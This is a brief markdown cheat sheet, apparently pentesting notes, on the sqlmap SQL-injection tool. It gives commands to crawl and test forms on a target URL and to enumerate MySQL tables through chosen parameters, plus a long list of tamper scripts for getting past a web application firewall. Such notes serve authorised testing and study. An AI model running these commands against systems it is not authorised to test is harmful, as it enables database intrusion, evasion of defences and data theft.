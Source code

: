 # Crawl, parse and test forms on target URL
```sh
sqlmap -u <url> --forms --crawl=2
```

# Attack specific parameters
```sh
sqlmap -u <url> --dbms=mysql --tables --threads 5 --data "<with_post>" -p "<parameter>"
```

# Notes
* buypass WAF with `--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes`
